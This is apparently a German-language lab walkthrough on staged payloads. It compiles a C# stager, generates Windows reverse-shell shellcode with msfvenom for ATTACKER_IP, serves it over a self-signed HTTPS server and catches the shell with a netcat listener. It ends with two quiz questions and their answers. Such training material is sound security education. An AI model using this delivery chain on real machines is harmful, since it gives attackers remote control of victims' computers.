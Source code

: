 Um den Code zu kompilieren, empfehlen wir, ihn als Datei namens staged-payload.cs auf einen Windows-Rechner zu kopieren und mit folgendem Befehl zu kompilieren:
```powershell
PS C:\> csc staged-payload.cs
```

### Verwenden unseres Stagers zur Ausführung einer Reverse-Shell

Nachdem unser Payload kompiliert wurde, müssen wir einen Webserver einrichten, um den finalen Shellcode zu hosten. Denken Sie daran, dass unser Stager sich mit diesem Server verbinden wird, um den Shellcode abzurufen und ihn im Speicher der Opfermaschine auszuführen. Beginnen wir damit, einen Shellcode zu generieren (der Dateiname muss mit der URL in unserem Stager übereinstimmen):
```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Beachten Sie, dass wir das Raw-Format für unseren Shellcode verwenden, da der Stager alles direkt in den Speicher laden wird, was er herunterlädt.

Nun, da wir einen Shellcode haben, richten wir einen einfachen HTTPS-Server ein. Zuerst müssen wir ein selbstsigniertes Zertifikat mit folgendem Befehl erstellen:
```shell
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Sie werden nach einigen Informationen gefragt, aber Sie können gerne die Eingabetaste drücken, um die angeforderten Informationen zu überspringen, da das SSL-Zertifikat nicht gültig sein muss. Sobald wir ein SSL-Zertifikat haben, können wir einen einfachen HTTPS-Server mit Python3 starten, indem wir den folgenden Befehl verwenden:
```shell
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Mit allem bereit können wir jetzt unseren Stager-Payload ausführen. Der Stager sollte sich mit dem HTTPS-Server verbinden und die Datei shellcode.bin abrufen, um sie in den Speicher zu laden und auf der Zielmaschine auszuführen. Denken Sie daran, einen nc-Listener einzurichten, um die reverse Shell auf dem gleichen Port zu empfangen, der beim Ausführen von msfvenom angegeben wurde:
```shell
user@AttackBox$ nc -lvp 7474
```

## Fragen:
Liefern gestagte Payloads den gesamten Inhalt unseres Payloads in einem einzelnen Paket? (ja/nein)
```
nein
```

Ist der Metasploit-Payload windows/x64/meterpreter_reverse_https ein gestagter Payload? (ja/nein)
```
nein
```
